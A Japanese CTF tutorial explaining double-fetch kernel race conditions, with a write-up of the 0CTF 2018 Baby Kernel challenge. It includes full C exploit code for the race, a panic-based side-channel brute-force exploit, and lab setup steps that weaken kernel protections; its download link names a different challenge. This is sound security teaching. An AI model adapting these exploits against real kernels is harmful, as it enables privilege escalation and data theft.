

# Double Fetch

## 概要

`Double Fetch` を直訳すると「値を 2 回取得する」で、そのまま理解すれば、1 回の処理の中で**あるオブジェクトの値を 2 回(あるいは複数回)取得し直す**ことです。脆弱性の原理としては競合状態(race condition)の脆弱性に属し、カーネル空間とユーザ空間の間でのデータアクセスの競合です。次のような状況で起こりえます。

- 大きなデータをユーザ空間からカーネル空間に渡す必要があるが、データ全体をそのまま渡すとオーバーヘッドが大きくなるため、**ユーザのアドレス空間を指すポインタだけをカーネルに渡す**ことにした。
- 後続の処理で、カーネルがそのポインタを通じてユーザ空間のデータを**複数回**取得する必要がある。

Linux などの現代的な OS では、仮想メモリアドレスは通常、カーネル空間とユーザ空間に分けられます。カーネル空間ではカーネルコードやドライバモジュールのコードなどが動作し、権限が高くなっています。一方、ユーザ空間ではユーザのコードが動作し、システムコールを通じてカーネルに入って関連する機能を実現します。通常、ユーザ空間からカーネルにデータを渡すときは、カーネルがまず `copy_from_user` などのコピー関数でユーザデータをカーネル空間にコピーし、検証や関連する処理を行います。しかし、入力データが複雑な場合、カーネルはそのポインタだけを参照し、データを一時的にユーザ空間に置いたまま後続の処理を行うことがあります。このとき、そのデータが別の悪意あるスレッドに改ざんされる危険があり、カーネルが検証を通したデータと実際に使うデータが食い違って、カーネルコードの実行が異常になります。

典型的な `Double Fetch` 脆弱性の原理を下図に示します。あるユーザ空間のスレッドがデータを用意し、システムコールを通じてカーネルに入ります。そのデータはカーネル内で 2 回取得されます。1 回目でカーネルはデータを取得して安全性のチェック(バッファサイズやポインタの有効性など)を行い、チェックを通過すると、2 回目に取得して実際の処理を行います。この 2 回の取得の間に、別のユーザ空間のスレッドが競合状態を作り出し、すでにチェックを通過したユーザ空間のデータを改ざんできます。すると、実際に使われるときに範囲外アクセスやバッファオーバーフローが起こり、最終的にカーネルのクラッシュや権限昇格につながります。



## 2018 0CTF Finals Baby Kernel

問題の添付ファイルは [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/CISCN2017-babydriver](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/CISCN2017-babydriver) からダウンロードできます。

### 問題の分析

まず IDA でドライバファイルを解析すると、flag がドライバファイルにハードコードされていることが分かります。

```c
.data:0000000000000480 flag            dq offset aFlagThisWillBe
.data:0000000000000480                                         ; DATA XREF: baby_ioctl+2A↑r
.data:0000000000000480                                         ; baby_ioctl+DB↑r ...
.data:0000000000000480                                         ; "flag{THIS_WILL_BE_YOUR_FLAG_1234}"
.data:0000000000000488                 align 20h
```

ドライバは主に `baby_ioctl` 関数を登録しており、2 つの機能を持ちます。ioctl の cmd 引数が 0x6666 のとき、ドライバは flag のロードアドレスを出力します。cmd 引数が 0x1337 のときは、まず 3 つの検証を行い、続いてユーザの入力内容とハードコードされた flag をバイト単位で比較し、一致した場合に `printk` で flag を出力します。

```c
signed __int64 __fastcall baby_ioctl(__int64 a1, attr *a2)
{
  attr *v2; // rdx
  signed __int64 result; // rax
  int i; // [rsp-5Ch] [rbp-5Ch]
  attr *v5; // [rsp-58h] [rbp-58h]

  _fentry__(a1, a2);
  v5 = v2;
  if ( (_DWORD)a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    result = 0LL;
  }
  else if ( (_DWORD)a2 == 0x1337
         && !_chk_range_not_ok((__int64)v2, 16LL, *(_QWORD *)(__readgsqword((unsigned __int64)&current_task) + 4952))
         && !_chk_range_not_ok(
               v5->flag_str,
               SLODWORD(v5->flag_len),
               *(_QWORD *)(__readgsqword((unsigned __int64)&current_task) + 4952))
         && LODWORD(v5->flag_len) == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( *(_BYTE *)(v5->flag_str + i) != flag[i] )
        return 0x16LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    result = 0LL;
  }
  else
  {
    result = 0xELL;
  }
  return result;
}
```

チェック関数を解析すると、`_chk_range_not_ok` は、ポインタと長さの範囲がユーザ空間を指しているかを検査するものです。ドライバファイルの機能を解析することで、ユーザが入力するデータ構造体は次のようになると分かります。

```c
struct flag
{
    char * flag_addr;
    int flag_len;
};
```

このうち `flag_len` 引数は flag の長さと比較されます。.ko ファイル中の flag の長さは 33 です。

`_chk_range_not_ok` が検査する内容は次のとおりです。

1. 入力されたデータのポインタがユーザ空間のデータかどうか。
2. データのポインタ内の flag\_str がユーザ空間を指しているかどうか。
3. データのポインタ内の flag\_len がハードコードされた flag の長さと等しいかどうか。

### 解法の方針

flag が格納されているアドレスは分かっていますが、それはカーネルのアドレス空間にあるため、そのままモジュールに渡しても検証を通過できません。そこで double fetch を考えます。まずユーザのアドレス空間上の正当なアドレスを渡し、別のスレッドで競合させて、それをカーネル空間の flag のアドレスに絶えず書き換えます。1 回でも当たれば flag を得られます。

まず、提供されている `cmd=0x6666` の機能を使って、カーネル内の flag のロードアドレスを取得します。ドライバ内で `printk` により出力された内容は `dmesg` コマンドで確認できます。exp では、`dmesg` の内容をファイルに出力し、そのファイルを開いて読み取ることができます。

次に、`cmd=0x1337` の機能に合うデータ構造体を構築します。`flag_len` はハードコードされた値から直接 33 と分かり、`flag_str` はユーザ空間のアドレスを指します。

最後に、悪意あるスレッドを作成し、`flag_str` が指すユーザ空間のアドレスを flag のカーネルアドレスに絶えず書き換えて競合状態を作り出します。これにより、ドライバ内のバイト単位の比較チェックを通過させ、flag の内容を出力させます。

### Exploit

最終的な exp は次のとおりです。

```c
/**
 * Copyright (c) 2021 arttnba3 <arttnba@gmail.com>
 * 
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
**/

#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <sys/ioctl.h>

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

pthread_t race_thread;
void *flag_kaddr;
char fake_flag[0x100] = "flag{arttnba3_t3s7_f1@9!}";
int race_times = 0x1000;
int flag_not_found = 1;
struct chal_arg {
    char * flag_addr;
    int flag_len;
} flag = {
    .flag_addr = fake_flag,
    .flag_len = 33
};

void chal_print_flag(int fd)
{
    ioctl(fd, 0x6666);
}

void chal_verify_flag(int fd, struct chal_arg *arg)
{
    ioctl(fd, 0x1337, arg);
}

void* race_thread_fn(void *args)
{
    while (flag_not_found) {
        for (int i = 0; i < race_times; i++) {
            flag.flag_addr = flag_kaddr;
        }
    }

    return NULL;
}

void exploit(void)
{
    int fd, result_fd, addr_fd, flag_fd;
    char *tmp_buf, *flag_addr_addr, *flag_addr;

    fd = open("/dev/baby", O_RDWR);
    if (fd < 0) {
        perror(ERROR_MSG("[x] Unable to open challenge dev file"));
        exit(EXIT_FAILURE);
    }

    chal_print_flag(fd);
    system("dmesg | grep flag > /tmp/addr.txt");
    tmp_buf = (char*) malloc(0x1000);    
    addr_fd = open("/tmp/addr.txt", O_RDONLY);
    if (addr_fd < 0) {
        perror(ERROR_MSG("[x] Unable to open flag addr file"));
        exit(EXIT_FAILURE);
    }

    tmp_buf[read(addr_fd, tmp_buf, 0x1000)] = '\0';
    flag_addr_addr = strstr(tmp_buf, "Your flag is at ")
                     + strlen("Your flag is at ");
    flag_kaddr = (void*) strtoull(flag_addr_addr, (void*) (flag_addr_addr + 16), 16);
    printf(SUCCESS_MSG("[+] flag addr: ") "%p\n", flag_kaddr);

    pthread_create(&race_thread, NULL, race_thread_fn, NULL);

    while (flag_not_found) {
        for(int i = 0; i < race_times; i++) {
            flag.flag_addr = fake_flag;
            chal_verify_flag(fd, &flag);
        }

        system("dmesg | grep flag > /tmp/result.txt");
        result_fd = open("/tmp/result.txt", O_RDONLY);
        read(result_fd, tmp_buf, 0x1000);
        if (strstr(tmp_buf, "flag{")) {
            flag_not_found = 0;
        }
    }

    pthread_cancel(race_thread);

    log_success("[+] race done and flag got!");
    system("dmesg | grep -i flag > /tmp/flag.txt");
    flag_fd = open("/tmp/flag.txt", O_RDONLY);
    if (flag_fd < 0) {
        perror(ERROR_MSG("[x] Unable to open flag file"));
        exit(EXIT_FAILURE);
    }

    tmp_buf[read(flag_fd, tmp_buf, 0x1000)] = '\0';
    flag_addr = strstr(tmp_buf, "So here is it ")+strlen("So here is it ");
    printf(SUCCESS_MSG("[+] Got flag: "));
    fflush(stdout);
    for (int i = 0; flag_addr[i] && flag_addr[i] != '\n'; i++) {
        putchar(flag_addr[i]);
    }

    puts("");
}

int main(int argc, char **argv, char **envp)
{
    exploit();

    return 0;
}

```

### Extra. サイドチャネル攻撃

この問題は、比較を行う際に flag のアドレスの正当性を検証していません。次のメモリレイアウトを考えます。

```c
/*
|                              |    <---- unallocated page
|                              |
|                              |
|------------------------------|
|                              |
|                              |
|                              |
|                              |    <---- page alloc by mmap
|                              |
|                              |
|                     flag{...X|
|------------------------------|
|                              |
|                              |
|                              |    <---- unallocated page
*/
```

flag を、mmap で確保したメモリページの末尾に置きます。その最後の文字 `X` が、これから総当たりで求める未知の文字です。

比較対象の文字 `X` について、比較に失敗すれば ioctl はそのまま戻ります。比較に成功すると、ポインタは次のメモリページに進んで参照外し(dereference)されるため、**このとき kernel panic が直接発生します**。

flag は `.ko` ファイルにハードコードされているので、kernel panic が起きるかどうかによって、flag の内容を 1 文字ずつ総当たりで求められます。

ASCII の可視文字は 95 個、flag の長さは 33 で、先頭の `flag{` と末尾の `}` の 6 文字を除くと、最大でも **26 \* 95 =  2470** 回の総当たりで flag を得られます。

忍耐が必要なので(リモートへのファイル転送が面倒なため)、ここでは比較的便利な exp を付けておきます。毎回コンパイルし直す必要はなく、flag を引数として渡すだけで済みます。

```c
/**
 * Copyright (c) 2021 arttnba3 <arttnba@gmail.com>
 * 
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
**/

#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include<sys/mman.h>
#include<sys/types.h>
#include <sys/ioctl.h>

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

struct chal_arg {
    char *flag_addr;
    int flag_len;
} flag = { .flag_len = 33};

void chal_print_flag(int fd)
{
    ioctl(fd, 0x6666);
}

void chal_verify_flag(int fd, struct chal_arg *arg)
{
    ioctl(fd, 0x1337, arg);
}

int main(int argc, char ** argv, char ** envp)
{
    int fd, flag_len;
    char * buf, *flag_addr;

    if (argc < 2) {
        puts("usage: ./exp flag");
        exit(-1);
    }

    flag_len = strlen(argv[1]);

    fd = open("/dev/baby", O_RDWR);
    if (fd < 0) {
        perror(ERROR_MSG("[x] Unable to open challenge dev file"));
        exit(EXIT_FAILURE);
    }

    buf = mmap(
        NULL,
        0x1000,
        PROT_READ | PROT_WRITE,
        MAP_ANONYMOUS | MAP_SHARED,
        -1,
        0
    );
    flag_addr = buf + 0x1000 - flag_len;
    memcpy(flag_addr, argv[1], flag_len);
    flag.flag_addr = flag_addr;

    chal_verify_flag(fd, &flag);

    return 0;
}
```

### その他

この問題の環境構築では、いくつか注意すべき点があります。

まず、`dmesg_restrict` を無効にする必要があります。そうしないと `printk` のメッセージを確認できません。具体的には、起動スクリプトに次を加えます。

```bash
echo 0 > /proc/sys/kernel/dmesg_restrict
```

次に、QEMU の起動オプションを設定するときは、`SMAP` 保護を有効にしてはいけません。有効にすると、カーネル内でユーザ空間のデータに直接アクセスしたときに `kerne panic` が起こります。

さらに、QEMU の起動オプションでは、シングルコア・シングルスレッド以外で起動するよう設定する必要があります。そうしないと、問題中の競合状態を発生させられません。具体的には、起動オプションにコア数のオプションを追加します。例：

```bash
-smp 2,cores=2,threads=1  \
```

> 起動後は、`/proc/cpuinfo` で現在動作しているコア数とハイパースレッディングの数を確認できます。

## Reference

https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/

https://www.usenix.org/conference/usenixsecurity17/technical-sessions/presentation/wang-pengfei

https://veritas501.space/2018/06/04/0CTF%20final%20baby%20kernel/

http://p4nda.top/2018/07/20/0ctf-baby/

https://www.freebuf.com/articles/system/156485.html


